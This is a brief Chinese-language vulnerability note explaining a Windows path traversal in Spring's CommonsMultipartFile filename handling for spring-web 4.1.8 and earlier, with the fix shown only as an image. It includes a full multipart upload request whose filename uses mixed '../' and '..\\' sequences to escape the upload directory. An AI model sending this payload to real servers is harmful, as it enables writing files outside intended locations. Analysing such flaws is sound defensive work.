 前置条件

- spring-web <= 4.1.8.RELEASE 对应 spingboot <= v1.2.7.RELEASE
- Windows


```
\org\springframework\spring-web\4.0.8.RELEASE\spring-web-4.1.8.RELEASE.jar!\org\springframework\web\multipart\commons\CommonsMultipartFile.class
```

```http
POST /upload HTTP/1.1
Host: localhost:9090
Content-Type: multipart/form-data; boundary=2022
Content-Length: 114

--2022
Content-Disposition: form-data; name="file"; filename="../..\\..\\..\\flag.txt"

hello world
--2022--
```

- org.springframework.web.multipart.commons.CommonsMultipartFile#getOriginalFilename

![](img/Pasted%20image%2020220818204052.png)

- `filename="../..\\..\\..\\flag.txt"` or `filename="../..\..\..\flag.txt"`
- pos = 2 且 != -1 ，所以不会对 `\` 进行处理
- 而Windows是支持 `..\` 和 `..\\`的
	- ![](img/Pasted%20image%2020220818204102.png)
- 从而可以进行路径穿越


修复：

![](img/Pasted%20image%2020220818204110.png)
